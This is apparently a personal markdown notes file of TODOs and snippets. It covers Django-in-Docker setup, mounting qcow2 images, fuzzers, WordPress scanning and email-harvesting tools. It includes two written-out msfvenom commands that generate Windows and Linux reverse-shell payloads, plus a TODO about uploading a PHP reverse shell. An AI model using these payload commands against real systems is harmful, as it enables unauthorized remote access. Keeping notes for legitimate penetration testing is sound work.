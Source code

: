 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

TODO - track cura bug issue
TODO - execute script on shutdown 
       so far:
       service in /usr/lib/systemd/system-shutdown/clean_gnome_home.shutdown
       script in /bin/clean_home
TODO - for Python relevant stuff make a Notebook rather than a .md file (Python.md)
TODO - Kioku: Rename 'Shell' skill to Bash and create a new Shell skill with cmnd line utilities
TODO - Lucy: save current pixel configuration -> will need dedicated function to restore
TODO - Upload PHP reverse shell onto (own) webserver

## Django Docker
1. define relative WSGIPythonPath to django project -> see django-apache2-docker/demo_site.conf
2. Add wsgi.py file in demo_site/demo_site/ & link to demo_site.settings
3. Add WSGI_APPLICATION = 'demo_site.wsgi.application' in demo_site/demo_site/settings.py
4. Rebuild Dockerfile
5. Enjoy?


## BSS section
containing statically-allocated variables

## Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

## CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

## FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

### Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt

